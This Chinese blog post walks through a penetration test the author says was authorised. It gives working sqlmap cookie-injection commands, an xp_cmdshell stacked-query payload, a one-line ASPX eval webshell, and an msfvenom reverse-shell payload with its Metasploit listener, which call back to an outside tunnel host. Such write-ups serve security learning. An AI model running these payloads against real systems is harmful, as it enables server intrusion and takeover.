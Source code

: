 ```yaml
---
title: 一次授权渗透实战
categories: 
  - 渗透测试
abbrlink: 45983
date: 2020-10-12 21:17:17
---
```


### 前言
　　最近刚好闲来无事，打开微信接到要一个对网站进行渗透测试的消息，对方发来网站后，马不停蹄的开始。<b>(本次渗透过程均在目标授权下进行，请勿进行非法渗透行为)</b>
　　<!-- more -->
### 信息收集
　　打开网站，一股简陋破败风引面而来，随即注册一个账号，以便后面的登录
　　<img src="https://s1.ax1x.com/2020/10/12/0WsEgf.png">
　　利用wappalyzer浏览器插件，获取到的信息，对于我这个菜鸡而言，并没有看到可以有用的东西
　　<img src="https://s1.ax1x.com/2020/10/12/0WRxJJ.png">
　　得到waf为OWASP CRS
　　<img src="https://s1.ax1x.com/2020/10/13/0huNAH.png">
　　使用nmap扫描，nmap -O -v -Pn 61.157.xx.xx
　　<img src="https://s1.ax1x.com/2020/10/13/0hdVu4.png">
　　开放的端口少之又少，基本没啥可利用的。又结合web服务器是iis，再根据nmap猜测的操作系统，确定操作系统为win server 2012
　　再用nmap自带的漏洞利用脚本，nmap --script=vuln 61.157.xx.xx
　　<img src="https://s1.ax1x.com/2020/10/13/0hdGKe.png">
　　主机安全做的很好，数据库禁止外连，让我无从下手，只有换一条路
　　<img src="https://s1.ax1x.com/2020/10/13/0hwidA.jpg">
　　直接上御剑后，看到admin字符，让我心中小喜，果断打开
　　<img src="https://s1.ax1x.com/2020/10/12/0WfkXq.png">
　　尝试弱口令登陆
　　<img src="https://s1.ax1x.com/2020/10/13/0fs27Q.png">
　　神奇的一幕出现了，竟然验证码有误?
　　<img src="https://s1.ax1x.com/2020/10/13/0fy84s.png">
　　后来不管我怎么输入，都只会出现一个提示"验证码有误!"，看来对方的设计是大家来一个同归于尽，这条路只好放弃了
　　<img src="https://s1.ax1x.com/2020/10/13/0fyyCR.jpg">
　　

### 漏洞挖掘
　　登陆进去后，发现有上传头像的地方，果断试试能不能上传马
　　尝试content-type能否绕过
　　<img src="https://s1.ax1x.com/2020/10/13/0f6LWR.png">
　　看来对方是要校验后缀名，而且还是白名单的形式，看是否有iis解析漏洞，期间我搜了许多都没有找到iis8.5漏洞文章
　　<img src="https://s1.ax1x.com/2020/10/13/0fcJXV.png">
　　上传一次正常图片后，虽然给出图片路径，但文件名是根据时间戳命名的图片，并且统一后缀名为png，这种看到就换条路吧
　　<img src="https://s1.ax1x.com/2020/10/13/0fgc2n.png">
　　看到重置登陆密码，我就猜想这个框是否存在sql注入呢
　　<img src="https://s1.ax1x.com/2020/10/13/0huvgx.png">
　　<img src="https://s1.ax1x.com/2020/10/13/0hnBmF.png">
　　难道就这样放弃了吗，我停下手中的键盘想了想。无论我怎么修改密码字符，都提示密码错误，那么肯定是将cookie中(shouji)参数代入sql语句，然后在将密码参数代入，看两个参数是否同时匹配数据库。也就是说shouji参数也可能存在sql注入
　　<img src="https://s1.ax1x.com/2020/10/13/0hMmWR.png">
　　这都不拦截？形同虚设的waf
　　
　　<img src="https://s1.ax1x.com/2020/10/13/0hMBm8.th.jpg">
　　
　　直接上sqlmap，以前从来没有碰到过注入点在cookie里面的，所以sqlmap命令格式就卡了我一天。顺便总结一下如果注入点在cookie，并且网站需要登录的命令。
　　带上--cookie参数，作用是让sqlmap能登陆进网站，重点来了，必须使用--level 2 后面的数字必须是&gt;=2，它才会检测cookie是否存在注入点
　　参考命令如下

```
python sqlmap.py -u "http://xxxx/tedb/user_repwd.aspx" --level 2 --cookie="member=id=45230&shouji=123456" -p member --random-agent
```
　　添加--os-shell参数，看能否直接得到shell
　　<img src="https://s1.ax1x.com/2020/10/13/049fD1.png">
　　报错信息意思是不支持堆叠注入，这里有<b>疑惑点</b>后面讲
　　获取banner信息为Microsoft SQL Server 2008，操作系统win server 2012 or 2008，根据前面的信息 100%确定操作系统为win server 2012
　　<img src="https://s1.ax1x.com/2020/10/13/0hJoKs.png">
　　获取数据库
　　<img src="https://s1.ax1x.com/2020/10/13/0hY5FK.png">
　　获取msdb数据库中的表，出现了这一幕
　　<img src="https://s1.ax1x.com/2020/10/13/0htiOs.png">
　　<img src="https://s1.ax1x.com/2020/10/13/0htJk6.th.jpg" >
　　此时天色已晚，躺在床上的我，整理一下思路。首先能获取到数据库信息，那么肯定存在sql注入的，其次是mssql数据库，是不是还有其他办法得到webshell呢？于是打开手机疯狂百度，学习其他大佬的姿势，找到了可以用xp_cmdshell 来让对方服务器远程执行cmd命令。学到了，明天起来验证，睡觉狗命要紧!!!

### 利用xp_cmdshell拿到webshell
　　MSSQL2005及以上版本默认禁用了xp_cmdshell。而如果该扩展存储过程没被删除，就能一句话启用它(不支持多句执行的话，请单独执行每句)
```sql
--开启
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE
--关闭
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 0;RECONFIGURE
```
　　<img src="https://s1.ax1x.com/2020/10/18/0jGZo8.png">

```mssql
exec master..xp_cmdshell "whoami" --用来执行cmd命令
```

　　<img src="https://s1.ax1x.com/2020/10/18/0jJkp4.png">
　　能远程执行命令，很nice，果断开启
　　<img src="https://s1.ax1x.com/2020/10/18/0jYSvd.png">
　　因图片看不清有些标点符号，贴出完整语句

```sql
shouji=123456';EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE--
```
　　可以从图片清楚的看到出现了红色和黑色两部分，这说明黑色部分的语句并没有发送过去，只有红色的部分发送过去了，这也是burp很强大的功能。
　　将 ';' url编码成 %3b，其他发送失败的字符也同理(还记得前面写的不支持堆叠注入吗，原因就在于sqlmap中的payload没有将';'转换成%3b，所以会出现不支持堆叠注入，自己编写一个sqlmap的tamper脚本即可<a href="https://blog.csdn.net/whatday/article/details/62059263">sqlmap tamper脚本编写</a>)
　　<img src="https://s1.ax1x.com/2020/10/18/0jtNY8.png">
　　执行后，是无法得知对方是否成功开启了xp_cmdshell，所以可以用ping命令返回时间，来判断
　　发送后，大约等了10s左右，得到了响应包，说明开启成功
　　<img src="https://s1.ax1x.com/2020/10/18/0jNKA0.png">
　　先查看一下是什么权限吧
　　<img src="https://s1.ax1x.com/2020/10/18/0jUe2D.png">
　　<img src="https://s1.ax1x.com/2020/10/18/0jdk9K.png">
　　竟然无回显，查阅后得知，可以将结果写入表中，然后查看表中的内容即可

```sql
drop TABLE D99_CMD; create TABLE D99_CMD([Data][varchar](1000),ID int NOT NULL IDENTITY (1,1));insert D99_CMD exec master.dbo.xp_cmdshell 'whoami' ;
```
　　将执行的结果写进D99_CMD表
　　<img src="https://s1.ax1x.com/2020/10/18/0jw7WV.png">
　　改变id=1后面的数字即可查看表中对应的行的内容，只能一行一行的查看，这也是非常鸡肋的地方

```sql
-- 查看表中的内容
And (select Top 1 char(124) data char(124) From (select Top 1 [ID],[Data] From D99_CMD where id=1 Order by [ID]) T Order by [ID] desc)>0
-- 获取表有多少行
And (select char(124)%2Bcast(Count(1) as varchar(8000))%2Bchar(124) From D99_CMD)>0
```
　　<img src="https://s1.ax1x.com/2020/10/18/0jB6KS.png">
　　<img src="https://s1.ax1x.com/2020/10/18/0jBOa9.png">
　　注意这里的system权限，是对方cmd.exe拥有的system权限，即本地cmd执行whoami，返回的内容
　　查看对方有哪些盘

```powershell
for %i in (A B C D E F G H I J K L M N O P Q R S T U V W X Y Z) do @if exist %i: echo %i:
```
　　执行命令后，查看表中的内容，如果出现"此时不应有 i。"，将payload进行url编码，重新发送后即可
　　<img src="https://s1.ax1x.com/2020/10/19/0vf1sA.png">
　　获取到对方有c,d盘
　　<img src="https://s1.ax1x.com/2020/10/19/0vIwt0.png">
　　接下来，就要获取网站的物理路径
　　<img src="https://s1.ax1x.com/2020/10/19/0vIgB9.png">

```powershell
#在c盘下查找user_repwd.aspx文件的物理路径 注意文件名后面一定要有'*'号
for /r c:\ %i in (user_repwd*.aspx) do @echo %i 
```
　　当我查看表中的内容时，无任何回显于是，在d盘下搜索，得到
　　<img src="https://s1.ax1x.com/2020/10/19/0vTUJ0.png">
　　其实在我最开始的时候，我没有先执行获取对方有哪些盘符的命令，而是先执行c盘下获取文件路径命令。当输出表结果是无任何回显时，我是非常懵逼的，我一度怀疑命令是不是执行失败，而没有第一次时间考虑到对方有多个盘符，导致我在这里浪费了几个小时。。

```powershell
#将一句话木马写入文件
echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["pass"],"unsafe");%^> > d:\wwwroot\sjk\tedb\shell.aspx
```
　　使用蚁剑成功连接上webshell
　　<img src="https://s1.ax1x.com/2020/10/19/0v7gBQ.png">
　　执行whoami后发现是iis apppool\xxx
　　发现拥有的权限有，可遍历文件夹包括c盘，文件读写，当前文件夹下不能上传文件
　　很幸运的是，我发现在其他文件夹下能成功上传文件，接下来提权

### 提权　　
　　这里我用花生壳来建立tcp隧道
　　打开kali，查看ip地址
　　<img src="https://s1.ax1x.com/2020/10/19/0xZZin.png">
　　点击花生壳最右下角的'+'号，创建场景，应用名称随便填，内网主机填kali的ip地址，内网端口随便填，我这里填8080，保存
　　<img src="https://s1.ax1x.com/2020/10/19/0xZ2SP.png">
　　生成反弹shell

```bash
msfvenom -a x64 --platform Windows -p windows/x64/meterpreter/reverse_tcp  LHOST=外网域名 LPORT=外网端口 -f exe -o install.exe
```
　　<img src="https://s1.ax1x.com/2020/10/19/0xniqO.png">

以我的为例，生成反弹shell参考命令如下

```bash
msfvenom -a x64 --platform Windows -p windows/x64/meterpreter/reverse_tcp  LHOST=l347x45481.qicp.vip LPORT=57945 -f exe -o install.exe
```

　　<img src="https://s1.ax1x.com/2020/10/19/0xupkQ.png">
　　生成的木马将会在当前目录下
　　<img src="https://s1.ax1x.com/2020/10/19/0xuutJ.png">
　　将kali中的install.exe拖到windows中后，成功上传
　　<img src="https://s1.ax1x.com/2020/10/19/0xusnf.png">
　　回到kali中，依次输入以下命令
```bash
msfconsole
use exploit/multi/handler  
set payload windows/x64/meterpreter/reverse_tcp  
set lhost 192.168.46.129     //内网主机ip
set lport 8080               //内网端口
run
```
　　成功开启监听
　　<img src="https://s1.ax1x.com/2020/10/19/0xKoRA.png">
　　接下来就是运行木马了，这里要注意的是，什么样的权限，无论运行什么程序它赋予的权限也是一样的。如果我直接在蚁剑中执行马子，那么此马子的权限还是iis，而前面通过xp_cmdshell得知权限为system，所以还是要用xp_cmdshell来执行马子
　　<img src="https://s1.ax1x.com/2020/10/19/0xGHfO.png">
　　session成功建立，如果不成功，有可能是防火墙，杀软在捣乱，谁叫我人品好呢。要是对方安装个杀软，我还要搞免杀，也不至于这么顺利
　　<img src="https://s1.ax1x.com/2020/10/19/0xJ9tf.png">
　　提权成功
　　<img src="https://s1.ax1x.com/2020/10/19/0xJZBn.png">
　　剩下的就是后渗透阶段了，永久后门植入，权限维持，域渗透等等。由于本人水平有限，文中难免有错误或遗漏之处，还请谅解，最后感谢你的阅读！

### 后记
　　马子上线的第二天就被对方发现了，这么明显的马名，不被发现也难，错误示范，大家别学我啊(#-.-)<img src="https://s1.ax1x.com/2020/10/19/0xtAwn.jpg">


